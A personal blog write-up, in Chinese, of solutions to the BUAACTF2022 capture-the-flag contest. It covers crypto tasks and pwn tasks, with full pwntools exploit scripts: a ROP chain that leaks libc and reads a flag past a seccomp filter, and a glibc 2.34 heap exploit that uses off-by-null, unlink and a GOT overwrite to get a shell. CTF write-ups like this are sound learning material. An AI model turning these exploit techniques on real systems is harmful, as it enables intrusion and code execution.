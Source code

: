 ---
title: "BUAACTF2022 WP"
date: 2022-03-28T13:53:31+08:00
tags: ['ctf', 'pwn']
categories: ['life', 'learning']
draft: false
cover: "/img/2022-03-28_buaactf2022.png"
---

* crypto

** ez game
求逆，哈希碰撞
#+begin_src python
from pwn import *
from gmpy2 import invert

p = remote("101.43.185.64", "43089")
# p = remote("49.232.31.80", "8088")
p.recvuntil("y)\n")
p.sendline('1')
sleep(1)
for i in range(300):
    p.recvuntil("m): (")
    a = int(p.recvuntil(", ", drop=True))
    b = int(p.recvuntil(")", drop=True))
    # p.interactive()
    p.sendline(str(invert(a, b)))
    log.success(str(i))
p.interactive()
#+end_src

#+begin_src python
from pwn import *
x = "d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70".decode("hex")

y = "d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70".decode("hex")

# print(hashlib.md5(x).hexdigest())
# print(hashlib.md5(y).hexdigest())
p = remote("49.232.31.80", "8088")
p.recvuntil("y)\n")
p.sendline('2')
sleep(2)

p.recvuntil("x:\n")
p.sendline(x)

sleep(2)
p.recvuntil("y:\n")
p.sendline(y)
p.interactive()
#+end_src
** pow
md5爆破
#+begin_src python
from pwn import *
from pwnlib.util.iters import mbruteforce
import itertools
import base64
# sh = remote("chuj.top", )
# sh.recvuntil(') == ')
# hash_code = sh.recvuntil('\n', drop=True).decode().strip()
hash_code = '9bdd40f1971ae4ae367df318eba20f20'
app = 'DNtjSOd3PV2JZqXj'
log.success('hash_code={},'.format(hash_code))
charset = string.printable
proof = mbruteforce(lambda x: hashlib.md5((x+app).encode()).hexdigest() ==
hash_code, charset, 4, method='fixed')
print(proof)
# sh.sendlineafter('????> ', proof)
# sh.interactive()
#+end_src

* pwn

** math
最后除法触发signal就给shell。但除数过滤了0，可以用INT_MIN / -1触发整数上溢。
#+begin_src python
from pwn import *
p = process("math")
p = remote("10.212.27.23", "12138")
for i in range(20):
    p.recvuntil("A = :")
    a = int(p.recvline())
    p.recvuntil("B = :")
    b = int(p.recvline())
    p.recvuntil("a ")
    op = p.recv(1)
    p.recvuntil("b:")
    if(op == "+"):
        p.sendline(str(a+b))
    elif(op == "-"):
        p.sendline(str(a-b))
    elif(op == "*"):
        p.sendline(str(a*b))
p.interactive()
#+end_src
** oj & oj_revenge
第一个题直接fopen就能拿到flag。第二个也只对关键字 =flag= , =open= 之类的做了简单过滤，没有禁用。用宏绕过就行。
#+begin_src c
#include <stdio.h>
#define x f##o##p##e##n
int main()
{
char buf[233];
char ff[10] = "./fla";
ff[5] = 'g';
FILE *fd = x(ff, "r");
fgets(buf, 233, fd);
printf(buf);
}
#+end_src
** 拿到shell是一件很嘻哈的事

[[/img/2022-03-28_shell.png]]

ida看一眼，发现是orw+rop。
#+begin_src shell
ubuntu@pwn:~/bridge/buaactf2022/pwn/shell$ seccomp-tools dump ./shell
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x02 0xc000003e  if (A != ARCH_X86_64) goto 0004
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0005
 0004: 0x06 0x00 0x00 0x00000000  return KILL
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
ubuntu@pwn:~/bridge/buaactf2022/pwn/shell$
#+end_src
seccomp-tools看到只禁用了execve。那就先泄漏puts的got得到libc基地址，把 "./flag" 字符串写入data段，orw拿到flag。
#+begin_src python
from pwn import *
p = process("./shell")
# p = remote("10.212.27.23", "4396")
libc = ELF("./libc-2.27.so")
elf = ELF("./shell")
p.recvuntil(":)\n")
rdiret = 0x0000000000400863
# leak
payload1 = 'a'*(0x20+8)+p64(rdiret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
p.sendline(payload1)
p.recvuntil("guess\n")
putsaddr = u64(p.recvuntil("\x7f").ljust(8, '\x00'))
libcbase = putsaddr - libc.sym['puts']
log.success("libc base: " + hex(libcbase))

o = libc.sym['open']+libcbase
r = elf.plt['read']
w = elf.plt['puts']
rsir15ret = 0x400861
rdxrsiret = 0x00130539+libcbase
rdxret = 0x01b96+libcbase
# write file name
payload2 ='a'*(0x20+8)+p64(rdiret)+p64(0)+p64(rdxrsiret)+p64(16)+p64(elf.sym['__data_start'])+\
    p64(r)+p64(elf.sym['main'])
p.recvuntil(":)\n")
p.sendline(payload2)
p.recvuntil("guess\n")
p.sendline("./flag\x00")
# orw
pushraxret = 0x001b4d0+libcbase
payload3 = 'a'*0x28+p64(rdiret)+p64(elf.sym['__data_start'])+p64(rdxrsiret)+p64(0)+p64(0)+p64(o)+p64(elf.sym['main'])
p.recvuntil(":)\n")
p.sendline(payload3)
payload3 = 'a'*0x28+p64(rdiret)+p64(0x3)+p64(rdxrsiret)+p64(30)+p64(elf.sym['__data_start'])+p64(r)
payload3 += p64(rdiret)+p64(elf.sym['__data_start'])+p64(w)
p.recvuntil(":)\n")
p.sendline(payload3)
p.interactive()
#+end_src
** dream
libc2.34下的堆题。

[[/img/2022-03-28_new-dream.png]]

new_dream是read后没有写入'\x00'，有信息泄漏。INDEX没有限制上限，可以无限创建新dream；但其实bss里只能放下8个地址，再往后就会覆盖SIZES。可以利用这点来修改SIZES，使得在edit_dream时可以覆盖下一堆块。

[[/img/2022-03-28_bss.png]]

[[/img/2022-03-28_edit-dream.png]]

edit_dream有off-by-null。

那么就可以用edit时的off-by-null让下一堆块认为上一块not in use，触发unlink后可以任意读写。

[[/img/2022-03-28_unlink.jpeg]]

通过读HEAP_PTRS内容拿到堆地址，再计算堆内偏移，读到dream1中保存的unsorted bin addr，leak libc base.
#+begin_src python
# leak
edit_dream(1, p64(0x4040a0))
read_dream(-2)
heap_addr = u64(p.recvuntil("Do", drop=True).ljust(8, '\x00'))
log.success("dream 0 addr: "+ hex(heap_addr))
edit_dream(1, p64(heap_addr-0x10+0x90+0x20))
read_dream(-2)
unsorted_addr = u64(p.recvuntil("Do", drop=True).ljust(8, "\x00"))
libc_base = unsorted_addr - 0x219cc0
log.success("libc base: "+hex(libc_base))
#+end_src
注意libc2.34中取消了free_hook和malloc_hook，不能通过重写hook来执行system。好在这题只开了partial RELRO，可以写got。往free@got写入system，delete_dream触发拿到shell。

完整exp：
#+begin_src python
from pwn import *
p = process("./dream")
p = remote("10.212.27.23", "8012")
libc = ELF("./libc.so.6")
libc = ELF("/home/ubuntu/glibc-all-in-one/libs/2.34-0ubuntu3_amd64/libc.so.6")
elf = ELF("./dream")
def new_dream(length, content):
    p.sendlineafter("> ", "1")
    p.sendlineafter("How long is your dream?\n", str(length))
    p.sendlineafter(" contents of this dream?\n", str(content))

def read_dream(ind):
    p.sendlineafter("> ", "2")
    p.sendlineafter("Which dream would you like to read?\n", str(ind))

def edit_dream(ind, content):
    p.sendlineafter("> ", "3")
    p.sendlineafter("Which dream would you like to change?\n", str(ind))
    p.sendline(str(content))

def delete_dream(ind):
    p.sendlineafter("> ", "4")
    p.sendlineafter("Which dream would you like to delete?\n", str(ind))

def exp():
    heap_ptr = 0x4040a0
    ptr = heap_ptr + 8*1
    payload1 = p64(0)+p64(0x90)+p64(ptr-0x18)+p64(ptr-0x10)
    payload1 += 'a'*(0x98-len(payload1)-0x8)
    payload1 += p64(0x90)
    new_dream(0x80, '') # 0
    new_dream(0x98, '') # 1
    new_dream(0x4f0, '') # 2
    new_dream(0x7, '/bin/s') # 3
    new_dream(0x10, '/bin/sh\x00') # 4
    # unlink
    edit_dream(1, payload1)
    delete_dream(2)

    # leak
    edit_dream(1, p64(0x4040a0))
    read_dream(-2)
    heap_addr = u64(p.recvuntil("Do", drop=True).ljust(8, '\x00'))
    log.success("dream 0 addr: "+ hex(heap_addr))
    edit_dream(1, p64(heap_addr-0x10+0x90+0x20))
    read_dream(-2)
    unsorted_addr = u64(p.recvuntil("Do", drop=True).ljust(8, "\x00"))
    libc_base = unsorted_addr - 0x219cc0
    log.success("libc base: "+hex(libc_base))

    # write free got
    dream4_addr = heap_addr + 0x90+0xa0+0x500+0x20
    free_hook = libc.sym['__malloc_initialize_hook']+libc_base
    # free_hook = elf.got['free']
    sys_addr = libc.sym['system']+libc_base
    one_gadget = 0xeacf2+ libc_base
    edit_dream(1, p64(0)+p64(0)+p64(free_hook)+p64(0)+p64(0)+p64(elf.got['free'])+p64(dream4_addr))
    # p.interactive()
    edit_dream(3, p64(sys_addr)[:7])
    # p.interactive()
    delete_dream(4)
    p.interactive()



if __name__ == "__main__":
    exp()
#+end_src
* rev
** checkin
简单的置换+异或。反向做一下就出来了。注意输入的时候scanf的格式，和小端序。
* misc
只做了签到和问卷，太丢人了。。。
